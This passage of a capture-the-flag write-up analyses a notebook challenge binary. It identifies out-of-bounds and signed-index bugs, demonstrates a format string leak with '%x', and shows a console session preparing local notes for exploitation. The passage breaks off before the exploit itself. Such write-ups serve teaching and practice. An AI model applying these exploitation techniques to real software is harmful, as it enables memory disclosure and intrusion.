 
Reviewing the code, we notice that the notes are saved in an array of 10 `note_t` members, which allocated 512 bytes for the note and an extra DWORD used as a boolean for indicating if the note is free.

We also can locate the following bugs in the implementation:

 1. `delete_note` tests `note_index < 11` instead of `note_index < 10`, allowing us to write outside the note array: `p_notes[10].is_free = 1`.
 2. `delete_note` and `print_note` read a signed integer via `scanf`, but don't check the index for negativity, allowing to leak some data or write a `1` via `note_t` aligned addresses.

However, these bugs turn out to be dead ends. The real vulnerability is much simpler: A format string vulnerability!

```
> 3
Quote: %x
 ____
< eb6cd008 >
 ----
   \    /\_/\
    \  ( o.o )
        > ^ <
```

In order to exploit it, let's debug the program and check how far the leak is in relation to the note array. We'll use the functionality in `read_notes` to initialize our local copy with a few notes:

```console
┌──(user@kali)-[/media/sf_CTFs/google/11_Heathrow_-_Secret_Warehouse]
└─$ echo "First note\nSecond note\nThird note\nCTF{Fake_flag}\nFifth note" > notes.txt

┌──(user@kali)-[/media/sf_CTFs/google/11_Heathrow_-_Secret_Warehouse]
└─$ ./notebook
This is your confidential notebook.
This should get you through the next mission!
Good luck!

Please choose what you want to do:
1. List built-in note metadata.
2. Print out a built-in note.
3. Make a draft your note.
4. Add note to notebook.
5. Delete note.
9. Quit.
> 1
Here's a list of our notes:
 - 00. length: 010, state: LIVE
 - 01. length: 011, state: LIVE
 - 02. length: 010, state: LIVE
 - 03. length: 014, state: DELETED
 - 04. length: 010, state: LIVE
 - 05. length: 000, state: DELETED
 - 06. length: 000, state: DELETED
 - 07. length: 000, state: DELETED
 - 08. length: 000, state: DELETED
 - 09. length: 000, state: DELETED
Please choose what you want to do:
1. List built-in note metadata.
2. Print out a built-in note.
3. Make a draft your note.
4. Add note to notebook.
5. Delete note.
9. Quit.
> 2
Which note would you like to print out? 3
```